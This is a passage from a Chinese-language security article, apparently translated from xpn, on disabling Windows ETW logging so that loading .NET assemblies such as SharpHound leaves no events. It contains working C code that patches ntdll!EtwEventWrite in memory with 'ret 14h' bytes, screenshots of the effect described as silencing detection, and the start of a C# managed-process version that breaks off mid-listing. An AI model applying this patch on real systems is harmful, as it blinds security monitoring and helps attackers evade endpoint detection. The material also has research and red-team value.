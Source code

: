 从前文可知，依赖ETW来发现恶意行为存在一些缺陷，现在我们可以稍微修改非托管.NET加载程序，patch掉`ntdll!EtwEventWrite`调用。

这里我们以x86架构为例，研究`EtwEventWrite`函数的操作过程。分析该函数对应的反汇编代码，可以看到该函数通过`ret 14h`操作码实现函数返回：

[![](https://p0.ssl.qhimg.com/t01f4f42db643e34cea.png)](https://p0.ssl.qhimg.com/t01f4f42db643e34cea.png)

为了禁用该函数正常功能，这里我们在函数开头处直接使用`ret 14h`对应的字节码（即`c21400`）。

```
// Get the EventWrite function
void *eventWrite = GetProcAddress(LoadLibraryA("ntdll"), "EtwEventWrite");

// Allow writing to page
VirtualProtect(eventWrite, 4, PAGE_EXECUTE_READWRITE, &amp;oldProt);

// Patch with "ret 14" on x86
memcpy(eventWrite, "\xc2\x14\x00\x00", 4);

// Return memory to original protection
VirtualProtect(eventWrite, 4, oldProt, &amp;oldOldProt);
```

完成该操作后，可以看到该函数会直接返回，同时栈状态恢复正常：

[![](https://p5.ssl.qhimg.com/t01f80b3cb44d853063.png)](https://p5.ssl.qhimg.com/t01f80b3cb44d853063.png)

那么如果现在我们运行SharpHound Assembly，前面我们使用的ETW检测方式是否还能正常工作？在patch ETW之前，我们能看到如下类似信息：

[![](https://p5.ssl.qhimg.com/t014129d3c767486238.png)](https://p5.ssl.qhimg.com/t014129d3c767486238.png)

patch完成后，没有任何事件会被记录下来：

[![](https://p5.ssl.qhimg.com/t017e711d5f5bde622d.png)](https://p5.ssl.qhimg.com/t017e711d5f5bde622d.png)

大家可以访问[此处](https://gist.github.com/xpn/fabc89c6dc52e038592f3fb9d1374673)下载相关源码。

如果我们使用自己的非托管进程来执行.NET Assembly，这种技术当然非常有用，但如果我们面对的是托管进程呢？比如，我们能否在调用`Assembly.Load`前执行相同的patch操作呢？其实在.NET内部patch ETW的确没那么完美，主要是因为在patch点之前，我们不可避免会留下一些痕迹，但完成patch后，我们依然能够隐藏后续的Assembly加载操作：

```
using System;
using System.Reflection;
using System.Runtime.InteropServices;

namespace test
`{`
    class Win32
    `{`
        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32")]
        public static extern IntPtr LoadLibrary(string name);

        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    `}`

    class Program
    `{`
        static void Main(string[] args)
        `{`
            Console.WriteLine("ETW Unhook Example @_xpn_");

            // Used for x86, I'll let you patch for x64 ;)
```